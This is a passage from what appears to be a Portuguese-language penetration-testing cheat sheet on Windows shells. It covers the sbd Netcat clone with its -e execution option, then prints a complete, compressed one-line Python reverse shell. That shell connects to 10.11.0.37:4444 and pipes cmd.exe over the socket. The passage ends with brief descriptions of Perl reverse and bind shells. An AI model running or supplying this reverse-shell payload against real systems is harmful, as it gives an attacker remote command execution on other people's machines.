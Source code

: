 **sbd** é um clone do Netcat, projetado para ser portátil e oferecer criptografia forte. Ele roda em sistemas operacionais semelhantes ao Unix e no Microsoft Win32. sbd possui criptografia AES-CBC-128 + HMAC-SHA1 (por Christophe Devine), execução de programas (opção -e), escolha da porta de origem, reconexão contínua com atraso e outras funcionalidades interessantes. sbd suporta apenas comunicação TCP/IP. O sbd.exe (parte da distribuição Kali Linux: /usr/share/windows-resources/sbd/sbd.exe) pode ser enviado para um computador com Windows como uma alternativa ao Netcat.

## Python
```bash
#Windows
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.11.0.37', 4444)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```
Perl é uma linguagem de programação de script de alto nível e interpretada. É amplamente utilizada para automação de tarefas, processamento de texto e desenvolvimento de aplicativos web. O Perl possui uma sintaxe flexível e poderosa, o que o torna uma escolha popular entre os hackers.

### Shells Perl

Existem várias shells Perl disponíveis para uso durante um teste de penetração. Essas shells fornecem uma interface interativa para executar comandos no sistema alvo. Aqui estão algumas shells Perl comumente usadas:

#### 1. Perl Reverse Shell

A Perl Reverse Shell é uma shell que se conecta a um servidor remoto e permite ao hacker executar comandos no sistema alvo. Ela é útil para estabelecer uma conexão reversa e obter acesso persistente ao sistema.

#### 2. Perl Bind Shell

A Perl Bind Shell é uma shell que escuta em uma porta específica no sistema alvo e aguarda uma conexão de um hacker. Uma vez conectado, o hacker pode executar comandos no sistema alvo. Essa shell é útil quando o sistema alvo está atrás de um firewall ou não tem acesso direto à Internet.
